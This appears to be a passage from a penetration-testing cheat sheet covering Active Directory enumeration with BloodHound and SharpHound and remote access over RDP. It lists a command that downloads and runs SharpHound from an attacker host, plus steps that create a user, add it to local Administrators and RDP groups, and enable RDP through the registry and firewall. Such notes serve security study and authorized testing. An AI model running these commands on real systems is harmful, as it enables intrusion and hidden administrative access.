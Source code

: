 ### Enumeration Through Service Principal Names
https://raw.githubusercontent.com/compwiz32/PowerShell/master/Get-SPN.ps1

## Enumeration - BloodHound
-> Install - Attacker VM
```
# Note: Install 
sudo apt install bloodhound
```
start neo4j - http://localhost:7474/
```
sudo neo4j start
```
 Enumeration - Windows
``` powershell
iwr -uri <ip>/SharpHound.ps1 -Outfile SharpHound.ps1
. .\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All,loggedon
Invoke-BloodHound -CollectionMethod All -Verbose
Invoke-BloodHound -CollectionMethod LoggedOn -Verbose
```



## Remote Access

### Remote Desktop Protocol - RDP

  Create a user  
```cmd
net user <user> <password> /add
```
  Add to local administrators group  
```cmd
net localgroup Administrators <user> /add
```
  Add to group of users who can access via RDP
```cmd
net localgroup "Remote Management Users" <user> /add
net localgroup "Remote Desktop Users" <user> /add
```
  Enable RDP
```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```
  Move to another user  
```cmd
runas /user:<hostname>\<user> cmd
```

#### RDP from terminal
  xfreerdp via RDP with sharing in \\\tsclient\share\
```
xfreerdp /u:user /p:pass /v:ip +clipboard /dynamic-resolution /cert:ignore /drive:/usr/share/windows-resources,share
```
  rdesktop via RDP  
```
rdesktop -u <user> -p <password> -d <domain> -f <ip>
```
